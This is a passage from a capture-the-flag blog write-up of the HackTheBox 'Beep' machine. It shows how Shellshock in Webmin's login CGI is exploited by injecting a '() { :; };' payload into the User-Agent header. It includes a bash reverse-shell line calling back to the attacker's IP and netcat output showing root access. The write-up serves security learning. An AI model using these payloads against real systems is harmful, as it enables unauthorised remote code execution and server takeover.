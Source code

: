And we are the root user again! Very very cool how there are multiple paths to compromise this box. Knowing that, let's try one more way of exploiting this box.

## Gaining Root Access via Shellshock Vulnerability

After going back to the login page of Webmin I noticed that after sending a POST request to login, it is being sent to `/session_login_cgi`. If you ever see a `.cgi` file, it is time to look into Shellshock. "Shellshock is a security bug causing Bash to execute commands from environment variables unintentionally. In other words if exploited the vulnerability allows the attacker to remotely issue commands on the server, also known as remote code execution. Even though Bash is not an internet-facing service, many internet and network services such as web servers use environment variables to communicate with the server's operating system"[(NetSparker)](https://www.netsparker.com/blog/web-security/cve-2014-6271-shellshock-bash-vulnerability-scan/). The Shellshock exploit uses the string `() { :; };[cmd]` replacing the `User-Agent` HTTP header. All you need to do is replace whatever was in the `User-Agent` HTTP header, and add the `() { :; };[cmd]` string as well as replacing the `[cmd]` with an actual command. For me, I went ahead and did a `;sleep 10` command. Doing a `;sleep 10` command is a great way to see if we have command execution, especially if we were trying to test it blind (more on that on another blog post in the future most likely =]). The way we can tell this is working is that this request should take 10 secondish to respond back to us. This is because we are making it `sleep` for 10 seconds, then send the request to us. Looking at the bottom right of Burp Suite, we can see it took `11,300` millis, so roughly 11 seconds. This means we most likely have command execution! Let's go ahead and get a shell.

<p align="center">
  <img src="{{ site.github.url }}/images/htb/beep/image-20210526213004443.png" />
</p>


Using the previous bash TCP reverse shell we got from PayloadsAllTheThings, we can use this for this Shellshock exploit as well. My User-Agent header looks like the following:

```
User-Agent: () { :; };bash -i >& /dev/tcp/10.10.14.36/443 0>&1
```

Sending this through Burp Suite and having a netcat listener on port 443 get's me another shell!

```
nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.7] 41640
bash: no job control in this shell
[root@beep webmin]# id
uid=0(root) gid=0(root)
```

This box was tons of fun to do as there were many ways to exploit it. After finishing this blog post, I was reading into a few other blogs and saw there are a few other ways to pwn this box. I'd highly recommend looking into the other ways you can exploit this box as well if you are interested!

